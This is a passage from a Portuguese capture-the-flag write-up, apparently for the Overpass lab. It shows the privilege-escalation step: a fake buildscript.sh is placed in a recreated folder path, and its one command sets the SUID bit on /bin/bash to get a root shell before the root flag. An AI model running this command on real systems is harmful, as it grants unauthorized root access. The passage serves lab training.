 Criei a estrutura de pastas em minha máquina junto do script,
`/downloads/src/buildscript.sh`  

e no script para adicionar SUID no bash.

`#!/bin/bash`  
`chmod u+s /bin/bash`
### root flag
![alt text](/assets/img/overpass/11.png)